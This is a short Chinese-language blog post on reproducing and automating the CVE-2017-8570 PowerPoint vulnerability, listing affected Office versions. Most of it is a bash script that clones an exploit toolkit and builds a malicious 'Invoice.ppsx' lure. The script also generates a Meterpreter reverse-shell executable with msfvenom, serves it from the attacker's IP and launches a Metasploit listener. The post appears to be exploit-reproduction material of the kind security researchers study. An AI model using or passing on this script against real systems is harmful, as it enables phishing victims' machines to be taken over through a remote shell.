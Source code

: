 ```yaml
---
title: "CVE-2017-8570 自动化"
date: 2019-01-07T23:01:31+08:00
categories: ['漏洞复现']
tags: ['CVE']
---
```

CVE-2017-8570是一个PowerPoint演示文稿的漏洞，利用方法简单且危害较大。攻击者只需要将生成的恶意ppsx（ppsx是office2007版以后的演示文稿的保存格式）文档发送给用户，用户打开放映后就会中招。
<!--more-->
### 影响版本
影响范围：
```html
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```
### 自动化脚本

```bash
attack_ip="192.168.1.212"
LPORT="6666"
DIR="/var/cve2017"

if [ -d ${DIR} ]; then
    rm -rf ${DIR}
    mkdir ${DIR}
else
    mkdir ${DIR}
fi
cd $DIR
`git clone https://github.com/tezukanice/Office8570.git`
cd Office8570
mkdir template
mv template.ppsx template/template.ppsx
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://$attack_ip"/logo.doc"
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=${attack_ip} LPORT=${LPORT} -f exe > ${DIR}/shell.exe`

gnome-terminal -e "python cve-2017-8570_toolkit.py -M exp -e http://${attack_ip}/shell.exe -l ${DIR}/shell.exe"

`service postgresql start`
if [ -f "exp.rc" ]; then
    rm "exp.rc"
fi
echo "use exploit/multi/handler">>exp.rc
echo "set LHOST "$attack_ip>>exp.rc
echo "set LPORT "$LPORT>>exp.rc
echo "set PAYLOAD windows/x64/meterpreter/reverse_tcp">>exp.rc
echo "exploit">>exp.rc
gnome-terminal -e "msfconsole -r exp.rc"
```



参考链接

1. https://github.com/tezukanice/Office8570
2. https://xz.aliyun.com/t/3772
3. https://github.com/Drac0nids/CVE-2017-8570